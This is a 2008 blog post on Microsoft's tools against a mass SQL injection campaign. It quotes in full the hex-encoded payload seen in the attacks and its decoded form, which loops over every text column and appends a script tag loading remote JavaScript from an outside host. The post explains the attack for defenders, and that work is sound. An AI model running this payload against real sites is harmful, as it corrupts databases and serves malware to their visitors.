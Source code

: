 ```yaml
---
title: Microsoft Has Released Tools To Address SQL Injection Attacks
author: SQLDenis
type: post
date: 2008-06-25T11:37:29+00:00
url: /index.php/webdev/webdesigngraphicsstyling/microsoft-has-released-tools-to-address/
views:
  - 5242
rp4wp_auto_linked:
  - 1
categories:
  - Classic ASP
  - Microsoft IIS
  - Web Design, Graphics and Styling

---
```

Microsoft has released 3 tools that deal with the recent SQL injection attack.
  
These three tools include [HP Scrawlr][1] , [UrlScan][2] version 3.0 Beta , and a [SQL Source Code Analysis Tool][3]. Microsoft further recommends following the best practices found within security advisory [954462][4]. 

Most of the sites affected had this submitted as part of the injection 

<pre>DECLARE%20@S%20VARCHAR(4000);SET%20@S=CAST(0x4445434C415 245204054205641524348415228323535292C40432056415243
4841522832353529204445434C415245205461626C655 F437572736F7220435552534F5220464F522053454C45435420612E6 E616D652C622E6E616D652046524F4D207379736F626A65637473206 12C737973636F6C756D6E73206220574845524520612E69643D622E6 96420414E4420612E78747970653D27752720414E442028622E78747 970653D3939204F5220622E78747970653D3335204F5220622E78747 970653D323331204F5220622E78747970653D31363729204F50454E2 05461626C655F437572736F72204645544348204E4558542046524F4 D205461626C655F437572736F7220494E544F2040542C40432057484 94C4528404046455443485F5354415455533D302920424547494E204 55845432827555044415445205B272B40542B275D20534554205B272 B40432B275D3D525452494D28434F4E5645525428564152434841522 834303030292C5B272B40432B275D29292B27273C736372697074207 372633D687474703A2F2F7777772E63686B626E722E636F6D2F622E6 A733E3C2F7363726970743E27272729204645544348204E455854204 6524F4D205461626C655F437572736F7220494E544F2040542C40432 0454E4420434C4F5345205461626C655F437572736F72204445414C4 C4F43415445205461626C655F437572736F7220%20AS%20VARCHAR(4000));EXEC(@S);</pre>

This is of course done so that you can&#8217;t see the real SQL and then you can&#8217;t check for DROP, UPDATE and other DDL and DML commands 

So what does this look like when you replace %20 with a space and exec with print?

<pre>DECLARE Table_Cursor 
CURSOR FOR SELECT a.name,b.name FROM sysobjects a,syscolumns b 
WHERE a.id=b.id AND a.xtype='u' AND (b.xtype=99 OR b.xtype=35 OR b.xtype=231 OR b.xtype=167) OPEN Table_Cursor 
FETCH NEXT FROM Table_Cursor INTO @T,@C 
WHILE(@@FETCH_STATUS=0) 
BEGIN 
EXEC('UPDATE ['+@T+'] SET ['+@C+']=RTRIM(CONVERT(VARCHAR(4000),['+@C+']))+''<script src=http://www.chkbnr.com/b.js></script>''')
 FETCH NEXT FROM Table_Cursor INTO @T,@C 
END CLOSE Table_Cursor DEALLOCATE Table_Cursor  </pre>

Somehow I think this could have been written set based 🙂

The problem is of course that you should never ever run as dbo or even worse sa.

 [1]: http://www.communities.hp.com/securitysoftware/blogs/spilabs/archive/2008/06/23/finding-sql-injection-with-scrawlr.aspx
 [2]: http://learn.iis.net/page.aspx/473/using-urlscan
 [3]: http://support.microsoft.com/kb/954476
 [4]: http://www.microsoft.com/technet/security/advisory/954462.mspx